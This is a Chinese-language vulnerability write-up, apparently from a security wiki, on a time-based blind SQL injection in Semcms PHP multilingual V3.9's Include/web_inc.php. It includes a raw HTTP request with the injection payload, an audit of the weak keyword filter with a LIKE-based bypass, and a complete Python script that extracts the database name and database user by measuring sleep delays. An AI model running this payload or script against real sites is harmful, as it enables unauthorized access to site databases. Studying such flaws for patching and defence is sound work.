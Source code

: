 Semcms PHP(多语)版 V3.9 sql注入漏洞
===================================

一、漏洞简介
------------

二、漏洞影响
------------

Semcms PHP(多语)版 V3.9

三、复现过程
------------

### 漏洞详情

漏洞文件为Include下的web\_inc.php文件

包

    POST /Include/web_inc.php HTTP/1.1
    Host: 127.0.0.1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:72.0) Gecko/20100101 Firefox/72.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Connection: keep-alive
    Cookie: scusername=%E6%80%BB%E8%B4%A6%E5%8F%B7; scuseradmin=Admin; scuserpass=c4ca4238a0b923820dcc509a6f75849b
    Upgrade-Insecure-Requests: 1
    Content-Length: 64
    Content-Type: application/x-www-form-urlencoded

    languageID=0 or if(substr(database(),1,1) like 0x6D,sleep(5),1);

基于时间的注入

### 代码审计

查看web\_inc.php的关键代码

    if (isset($_POST["languageID"])){$Language=test_input(verify_str($_POST["languageID"]));}else{$Language=verify_str($Language);}

    if(!empty($Language)){

          //网站SEO设定

          $query=$db_conn->query("select * from sc_tagandseo where languageID=$Language");
          $row=mysqli_fetch_array($query);
          $tag_indexmetatit=datato($row['tag_indexmetatit']);// 首页标题
          $tag_indexkey=datato($row['tag_indexkey']);// 首页关键词
          $tag_indexdes=datato($row['tag_indexdes']);// 首页描述 

    ......

可以看到查询语句没有利用单引号闭合

跟入过滤函数查看

    function test_input($data) { 
          $data = str_replace("%", "percent", $data);
          $data = trim($data);
          $data = stripslashes($data);
          $data = htmlspecialchars($data,ENT_QUOTES);
          return $data;

       }
    function inject_check_sql($sql_str) {

         return preg_match('/select|insert|=|%|<|between|update|\'|\*|union|into|load_file|outfile/i',$sql_str);
    } 

    function verify_str($str) { 

       if(inject_check_sql($str)) {

           exit('Sorry,You do this is wrong! (.-.)');
        } 

        return $str; 
    }

过滤了一些关键字，正常的联合注入是没有办法了，可以时间盲注

利用`if`和`sleep`构造payload，因为`<`,`=`被过滤且存在`htmlspecialchars`函数，利用like代替

    languageID=0 or if(substr(database(),1,1) like 0x6e,sleep(5),1);

附上脚本

    # !/usr/bin/python3
    # -*- coding:utf-8 -*-
    # author: Forthrglory

    import requests

    def getDatabase(url):
        s = ''
        r = requests.session()
        head = {'Content-Type':'application/x-www-form-urlencoded'}

        for i in range(1,9):
            for j in range(97,122):
                data = 'languageID=0 or if(substr(database(),%s,1) like %s,sleep(5),1);' % (i,hex(j))

                result = r.post(url, data, headers=head)

                if(result.elapsed.total_seconds() > 5):
                    s = s + chr(j)
                    print(s)
                    break
        print('database=' + s)


    def getUser(url):
        s = ''
        r = requests.session()
        head = {'Content-Type':'application/x-www-form-urlencoded'}

        for i in range(1,21):
            for j in range(64,90):
                data = 'languageID=0 or if(substr(user(),%s,1) like %s,sleep(5),1);' % (i,hex(j))

                result = r.post(url, data, headers=head)

                if(result.elapsed.total_seconds() > 5):
                    s = s + chr(j).lower()
                    print(s)
                    break
        print('user=' + s)

    if __name__ == '__main__':
        url = 'http://127.0.0.1/Include/web_inc.php'

        s = getDatabase(url)
        u = getUser(url)

运行截图

![](/Users/aresx/Documents/VulWiki/.resource/SemcmsPHP(多语)版V3.9sql注入漏洞/media/rId26.png)

![](/Users/aresx/Documents/VulWiki/.resource/SemcmsPHP(多语)版V3.9sql注入漏洞/media/rId27.png)

不过因为过滤了select，暂时不知道怎么注出数据ORZ，比如说注出user表中的密码之类的，如果有师傅愿意不吝赐教，这里万分感谢

参考链接
--------

> <https://xz.aliyun.com/t/7122>
